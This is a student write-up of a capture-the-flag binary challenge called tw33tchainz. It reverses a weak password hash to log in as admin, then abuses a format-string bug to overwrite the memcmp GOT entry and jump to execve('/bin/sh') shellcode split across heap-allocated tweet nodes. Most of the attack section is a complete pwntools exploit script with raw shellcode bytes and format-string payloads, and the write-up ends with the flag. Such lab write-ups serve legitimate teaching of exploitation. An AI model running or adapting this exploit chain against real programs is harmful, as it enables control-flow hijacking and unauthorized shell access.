




## project1

I will write this report according to the grading rubric, but not totally follow the points one-by-one.

---
**Overview**
After decompiling the binary file, analyzing the main loop, I divide the program into three part:

+ *preprocessing*: close output buffer, clear command line arguments and environment variables, set `SIGSEGV` handler.


+ *user login*: generate random admin password, generate hashing values according to user input username and salt.


+ *main loop*: select cranches.


---
**Hashing**
This step focuses on the login phase, there are two functions related:
+ `gen_pass` will read 16 random bytes into global variable `secretpass`.
+ `gen_user` accepts two variables `user` and `salt`, 15 bytes each, then hashes them, output as password.

There are two important functions in `gen_user`, one is `hash`, and another is `print_pass`.

The critical component of `hash` function (which accpets an address of `password` as return value's address) is:


Three absolute addresses for global variables is `salt`, `secretpass`, `user` respectively, the hashing function is:

> password = ((salt + secrectpass) ^ user) % 256

Then the `print_pass` will print the hashed value in hexadecimal (and little endian), which will eak the `secretpass` with inverse operation.

Here I found that, in python, the precedence of minus ('-') is higher than xor ('^'). Then I am able to login as admin.

---
**Hijack Control Flow**
Once login as admin, there is a format string vulnerablity in `print_menu` function:


From this stack layout, I found that the string is intensionally pushed onto the stack (31 bytes apart, we shall pad 1 bytes front of the payload), in source view, this local variable will be used as return value. As for pwn work, we can exploit it by format string vulerability wrting.


Note that the maximum length of payload is 16 bytes, so I had to overwrite the target one byte for each format string.

My solution is to overwrtie GOT table, `memcmp` is a good victim since it is only called in `maybe_admin` and will not disturb our payload injecting procedure.

---
**Writing Shellcode**
Clearly, the only place we can write shellcode is the `tweer_string`, it is a linked list data structure like:
```cpp
struct node {
	char tweet_string[16],
	struct node *next
};
```
There is a certain pattern on the address allocated (but I'm not sure it holds forever, since thry are on the heap), except for the first one, the addresses between two nodes are 0x20 = 32 bytes. With this parttern, I can write shellcode in this linked list, together with the address to where the control flow returns.


In this project, since the maximum length of imput string is 16 bytes, the shellcode should be cutoff and use some trick of jump instruction to forward the control flow to the next place.

---
**Exploit**
Here is a totally automatic exploit

```python
from pwn import *

p = process('./tw33tchainz')
pid = proc.pidof(p)[0]

def get_password():
    global p
    p.recvuntil('Username:')
    p.sendline('cirqcirq')
    p.recvuntil('Salt:')
    p.sendline('qricqric')
    p.recvuntil('Password:\n')
    password = p.recvline().strip()
    p.sendline('')
    return password

def get_secret(password):
    user = 'cirqcirq\x0a\x00\xcc\xcc\xcc\xcc\xcc\xcc'
    salt = 'qricqric\x0a\x00\xba\xba\xba\xba\xba\xba'
    pwd = ''
    for i in range(4):
        word = password[i*8:i*8+8].decode('hex')
        pwd += word[-1]
        pwd += word[-2]
        pwd += word[-3]
        pwd += word[-4]
    secret = ''
    for k in range(16):
        p, u, s = ord(pwd[k]), ord(user[k]), ord(salt[k])
        secret += chr((((p + 0x100) ^ u) - s) % 0x100)
    return secret

def admin_login(secret):
    global p
    p.recvuntil('Choice:')
    p.sendline('3')
    p.recvuntil('password:')
    p.sendline(secret)
    p.sendline('')

def turn_debug():
    global p
    p.recvuntil('Choice:')
    p.sendline('6')
    p.sendline('')

def tweet(line):
    assert isinstance(line,str) and len(line)<=16
    global p
    p.recvuntil('Choice:')
    p.sendline('1')
    p.sendline(line)
    p.sendline('')

def get_linked_list():
    global p
    tweet('cirq')
    tweet('qric')
    p.recvuntil('Choice:')
    p.sendline('2')
    linked_list = []
    while True:
        addrline = p.recvline_regex(r'^\s?Address: 0x[0-9a-f]{8}\n$', exact=True)
        nextline = p.recvline_regex(r'^Next: 0x[0-9a-f]{8}\n$', exact=True)
        linked_list.append((addrline[-10:], nextline[-10:]))
        if linked_list[-1][1] == '0x00000000':
            break
    p.sendline('')
    assert len(linked_list) >= 2
    return linked_list[-1][0]

def insert_shell(tail):
    new_tail = int(tail, 16) + 0x20
    shell_frag = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e'
    jmp = '\xeb' + p8(0x20 - len(shell_frag) - 2)
    tweet(shell_frag + jmp)
    shell_frag = '\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80'
    tweet(shell_frag)
    return hex(new_tail)

victim = 0x0804d02c  # address of memcmp()
def hijack_eip(addr):
    l1_addr = p32(victim)
    l1_as = int(addr[6:], 16)
    if l1_as - 5 < 0:
        l1_as += 0x100
    fs = 'Q' + l1_addr + '%' + str(l1_as - 5) + 'c%8$n\x00'
    tweet(fs)
    l2_addr = p32(victim + 1)
    l2_as = int(addr[4:6], 16)
    if l2_as - 5 < 0:
        l2_as += 0x100
    fs = 'Q' + l2_addr + '%' + str(l2_as - 5) + 'c%8$n\x00'
    tweet(fs)
    l3_addr = p32(victim + 2)
    l3_as = int(addr[2:4], 16)
    if l3_as - 5 < 0:
        l3_as += 0x100
    fs = 'Q' + l3_addr + '%' + str(l3_as - 5) + 'c%8$n\x00'
    tweet(fs)
    l4_addr = p32(victim + 3)
    l4_as = int(addr[:2], 16)
    if l4_as - 5 < 0:
        l4_as += 0x100
    fs = 'Q' + l4_addr + '%' + str(l4_as - 5) + 'c%8$n\x00'
    tweet(fs)

def get_shell():
    global p
    p.recvuntil('Choice:')
    p.sendline('3')
    p.recvuntil('password:')
    p.sendline('cirq')

def main():
    pw = get_password()
    sec = get_secret(pw)
    admin_login(sec)
    turn_debug()
    now_tail = get_linked_list()
    new_tail = insert_shell(now_tail)[2:]
    if len(new_tail) < 10:
        new_tail = '0' + new_tail
    hijack_eip(new_tail)
    get_shell()
    p.interactive()

main()
```


Flag is `m0_tw33ts_m0_ch4inz_n0_m0n3y`.
